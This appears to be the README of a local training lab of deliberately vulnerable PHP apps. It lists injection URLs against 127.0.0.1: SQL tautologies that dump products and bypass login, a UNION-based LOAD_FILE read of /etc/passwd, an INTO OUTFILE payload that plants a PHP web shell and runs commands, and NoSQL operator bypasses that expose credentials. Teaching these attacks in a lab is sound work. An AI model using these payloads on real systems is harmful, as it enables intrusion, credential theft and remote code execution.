 # Start

Start the network with `sudo ./start_linux_network.sh` (you need sudo for the docker exec's if you run it properly not using docker user). You have to wait a bit until the databases are populated.

# SQL

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100)

## Attack

### Verification

Error when calling this url:

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27)

### List all products

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100'+OR+'1'='1)

# Login Example

## Standard

[http://127.0.0.1:8781/login/login.php](http://127.0.0.1:8781/login/login.php)

Enter 'admin', 'admin'

## Attack

### Verification

Enter some credentials. Check url.

Error when calling this url:

[http://127.0.0.1:8781/login/login.php?user=user'&password=pass'](http://127.0.0.1:8781/login/login.php?user=user'&password=pass')

### Circumvent Login

[http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1](http://127.0.0.1:8781/login/login.php?user=admin&password=xyz'+OR+'1'='1)

# File Attacks

## Standard

[http://127.0.0.1:8781/load_file/list_users.php?UserID=2](http://127.0.0.1:8781/load_file/list_users.php?UserID=2)

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT 1,2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1+UNION+ALL+SELECT+1,2,3)

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT LOAD_FILE('/etc/passwd/'),2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3)

## Write code to server

Using LAMP Server:

### Standard

[http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2](http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2)

### Attack

Use `INTO OUTFILE`:

http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8782/cmd.php?cmd=ls

# Generic Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php](http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php)

## Attack

[http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users](http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users)

# Form Skip Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php)

Form to choose a customer showing soft skills

## Verification

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param='](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param=')

# NoSQL

To get an overview of the examples goto http://127.0.0.1:8783/

## Get all products

- [http://127.0.0.1:8783/products.php?product[$gt]=%22%22](http://127.0.0.1:8782/products.php?product[$gt]=%22%22)
- [http://127.0.0.1:8783/products.php?product[$ne]=1](http://127.0.0.1:8782/products.php?product[$ne]=1)

## Get all credentials / Potential login bypass

- [http://127.0.0.1:8783/users.php?user[$ne]=1&pass[$ne]=1](http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1)
